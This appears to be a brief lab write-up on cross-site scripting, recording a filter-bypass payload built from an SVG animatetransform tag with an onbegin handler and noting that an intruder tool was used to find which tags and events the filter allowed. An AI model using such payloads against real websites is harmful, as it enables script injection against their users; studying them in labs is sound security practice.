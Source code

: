 Payload used: `<svg><animatetransform%20onbegin=alert(1)>`

1. First used intruder to test allowed tags: <svg><animatetransform>  
2. Then used intruder to get allowed events: onebegin  
<br/>SVG alone not very common with XSS, another tag will be used
